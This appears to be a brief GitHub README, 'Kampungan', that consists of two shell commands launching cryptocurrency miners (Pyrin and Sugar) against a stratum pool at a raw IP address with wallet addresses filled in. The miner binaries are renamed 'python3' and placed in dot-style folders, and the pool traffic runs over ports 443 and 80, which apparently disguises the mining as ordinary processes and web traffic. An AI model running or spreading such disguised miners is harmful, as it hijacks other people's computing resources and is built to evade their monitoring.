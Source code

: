 # Kampungan
mencoba menjadi manusia

```
./dotlol/python3 -a PYRIN --pool stratum+tcp://45.115.224.69:443 --user pyrin:qq5fnz6aelfdruhshjpul598fxyeqfkjh86cvypt2902mghd0ql7gy7g799ff.DOTSEQ --no-cl

```

```
./dotcpu/python3 -a yespowersugar -o stratum+tcp://45.115.224.69:80 -u sugar1qmpk65gyqqgk63lkrg27gnl9hc2e8zqn7jgmd5j.DOT_GULA

```
